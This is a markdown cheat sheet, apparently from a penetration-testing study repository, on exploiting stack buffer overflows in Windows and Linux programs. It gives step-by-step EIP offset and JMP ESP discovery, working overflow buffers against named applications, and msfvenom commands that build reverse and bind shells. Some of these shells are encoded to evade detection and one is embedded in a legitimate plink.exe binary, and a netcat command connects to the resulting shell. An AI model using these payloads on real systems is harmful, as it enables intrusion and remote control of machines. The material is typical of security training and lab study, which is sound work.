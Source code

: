# Buffer overflow (BOF)


## (NEW)

## Buffer Overflow

1. Determine length of overflow trigger w/ binary search "A"x1000
2. Determine exact EIP with `pattern_create.rb` & `pattern_offset.rb`
3. Determine badchars to make sure all of your payload is getting through
4. Develop exploit
  - Is the payload right at ESP
    - `JMP ESP`
  - Is the payload before ESP
    - `sub ESP, 200` and then `JMP ESP`
    - or
    - `call [ESP-200]`
5. `msfvenom -a x86 --platform windows/linux -p something/shell/reverse_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename`
  - Make sure it fits your payload length above
6. Gain shell, local priv esc or rooted already?


## (OLD)
##Methodology

1. Investigate the file
```
file
strings
```

2. Test it out - what does the program do?

3. Look at its functions in GDB

```
info functions
```

4. Look at the assembly of a function

```
disass main
disass otherfunction
```

5. Look for the flow of the program. Look for cmp

6. Set up breakpoints with hooks

```
define hook-stop
info registers  ;show the registers
x/24xw $esp  ;show the stack
x/2i $eip  ;show the new two instructions
end
```

7. Step through the whole program. Or at the breakpoints

```
si ;steps one forward, but follows functions
ni ;does not follow functions
```

## (NEW)
### Windows Buffer Overflows

-   Controlling EIP

```
locate pattern_create
pattern_create.rb -l 2700
locate pattern_offset
pattern_offset.rb -q 39694438
```

-   Verify exact location of EIP - [\*] Exact match at offset 2606
```
buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90
```

-   Check for “Bad Characters” -
```
Run multiple times 0x00 - 0xFF
```
-   Use Mona to determine a module that is unprotected

-   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

-   Use NASM to determine the HEX code for a JMP ESP instruction

```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP ESP  
00000000 FFE4 jmp esp
```

-   Run Mona in immunity log window to find (FFE4) XEF command

    ```
!mona find -s "\xff\xe4" -m slmfc.dll  
found at 0x5f4a358f - Flip around for little endian format
buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
```

-   MSFVenom to create payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```
-   Final Payload with NOP slide  
```
'buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
```
-   Create a PE Reverse Shell  
```
msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
-f  
exe -o shell\_reverse.exe
```


-   Create a PE Reverse Shell and Encode 9 times with
Shikata\_ga\_nai
 ```
msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
-f  exe -e x86/shikata\_ga\_nai -i 9 -o shell\_reverse\_msf\_encoded.exe
```


-   Create a PE reverse shell and embed it into an existing
executable  
```
msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f  exe -e x86/shikata\_ga\_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o   shell\_reverse\_msf\_encoded\_embedded.exe
        ```


-   Create a PE Reverse HTTPS shell  
    ```
msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe
        ```

###   Linux Buffer Overflows

-   Run Evans Debugger against an app  
    ```
        edb --run /usr/games/crossfire/bin/crossfire
        ```

-   ESP register points toward the end of our CBuffer  
    ```
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax
        ```

-   Check for “Bad Characters” Process of elimination -
```
Run multiple times 0x00 - 0xFF
```
-   Find JMP ESP address  
    ```
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597
```
-   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +"\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"


-   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

-   Connect to the shell with netcat:  
    ```
nc -v $ip 4444
```
